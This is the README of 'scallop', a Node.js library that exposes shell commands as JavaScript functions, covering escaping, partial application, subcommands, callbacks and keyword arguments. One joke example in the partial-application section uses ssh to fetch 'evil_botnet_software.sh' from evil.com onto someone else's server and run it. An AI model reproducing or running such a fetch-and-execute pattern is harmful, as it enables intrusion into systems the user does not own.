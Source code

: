 Scallop
=======

![](https://raw.githubusercontent.com/bgw/scallop/master/logo.png)

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `scallop`!

```sh
$ npm i --save-dev scallop
```

```javascript
var sh = require("scallop"),
    curl = sh("curl", {silent: true});
curl("http://httpbin.org/user-agent", function(err, result) {
    console.log(JSON.parse(result)["user-agent"]); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
var mkdir = sh("mkdir");
mkdir("example_directory");
```

Multiple arguments can be provided.

```javascript
mkdir("-p", "parent/child");
```

Spaces and the like are automatically escaped.

```javascript
mkdir("Some directory with spaces! Wooo! Rebellion!");
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
var myFolders = ["folderA", "folderB", "folderC"];
mkdir("-p", "-v", myFolders);
// which is the same as
mkdir.apply(null, ["-p", "-v"].concat(myFolders));
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial("-p");
mkdir("another-parent/child");
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
var mkdir = sh("mkdir", "-p");
```

Alright. That looks cool, but kinda limited in use.

```javascript
var ssh = sh("ssh"),
    definitelyMyServer = ssh.partial("notmyserver.com", "-p 1234"),
    remoteCurl = definitelyMyServer.partial("curl", "--silent");

remoteCurl("-O", "http://evil.com/evil_botnet_software.sh");
definitelyMyServer("sh", "evil_botnet_software.sh");
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
var git = sh("git").defineSubcommands("status", "add", "rm", "clone");
git.clone("https://github.com/bgw/scallop.git", "scallop");
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
var sudo = sh("sudo");
sudo.defineSubcommands({ls: null, git: ["status", "add", "rm"], echo: null});
sudo.git.add("important_file.txt");
```

#### ES6 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The next version of JS adds [object Proxies][]. These allow us to intercept
accesses to an underlying object. If you enable proxies by passing
`--harmony-proxies` or `--harmony` to `node`, then you can use some alternate
syntax. Eventually this proposed language feature should be enabled by default
in future versions of node.

  [object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
sh.ssh["bgw@benjam.info"].git.rm("important_file.txt");
```

Take *that*, ES5!

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
var _s = require("underscore.string"),
    ls = sh("ls", "-1");
ls(function(err, result) {
    if(err) {
        throw err; // Oh my god! Something horrible must have happened!
    }
    console.log(_s.strip(result).split("\n"));
});
// ["another_parent", "example_directory", ... ]
```

**Warning:** All calls resulting in shell execution are asynchronous, so there's
no way to catch errors or control execution flow without a callback.

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with CoffeeScript syntax.

```coffeescript
ls = sh "ls"
ls "-1", all: true, recursive: false, (err, res) ->
    console.log res
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCode`: A number or array of numbers representing valid exit codes.
    Defaults to `0`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`scallop` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted
on GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!
